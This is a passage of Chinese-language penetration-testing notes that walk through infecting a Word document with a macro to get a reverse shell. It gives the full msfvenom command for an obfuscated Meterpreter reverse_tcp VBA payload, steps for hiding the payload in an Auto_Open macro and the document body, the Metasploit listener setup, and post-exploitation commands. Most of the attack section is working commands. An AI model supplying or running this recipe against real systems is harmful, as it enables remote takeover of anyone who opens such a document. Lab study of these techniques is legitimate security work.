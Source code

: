 > 只在某个版本的IE中有用
>

#### 利用宏感染 word 文档获取 shell

> office 2016 下载地址：
> 链接：https://pan.baidu.com/s/1LzbgyjBYAL0sfsQoePLfzA 
> 提取码：5ksy
>
> 适用于office2010,2016

- 首先将 office 2016.zip 上传到 win7 虚拟机上，解压后，安装一下 office。

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp 
LHOST=192.168.1.53 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f vba-exe
```

```
执行完成后会生成 2 段代码
第一段代码是 MACRO CODE [ˈmækrəʊ kəʊd] 宏代码
第二段代码 payload。			# *号中的内容不要
```

- 打开 Word 新建空白文档，在视图中新建宏		宏名 Auto_Open >> 创建

- 清除默认的代码，复制第一段 code 代码内容到编辑器中，然后返回到 Word 内容编辑区（按左上角Word的图标）。

- 复制第二段代码 payload 到 word 正文，然后保存文档（可隐藏）。

- 按 Ctrl+s 保存

```
MSF 配置侦听
msf6 exploit(multi/browser/java_jre17_driver_manager) > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.1.53
msf6 exploit(multi/handler) > jobs -K
msf6 exploit(multi/handler) > exploit
```

配置好侦听之后我们打开我们制作的 word 文档，文档一旦打开就会执行 payload 连接到
MSF，关闭 word 文档之后 session 不受影响。
打开之后我们回到 MSF 控制台，Session 已经建立

```
meterpreter > getuid 

		Server username: XUESHEN\Administrator
		
我们尝试把 payload 转移到其他进程
meterpreter > getpid 		#获取当前进程 pid
Current pid: 2932
meterpreter > ps 			#查看进程列表，在 ps 列出的进程列表，倒数第 4 个就是我们进程的 pid
```

#### 安卓客户端渗透（暂未实验）
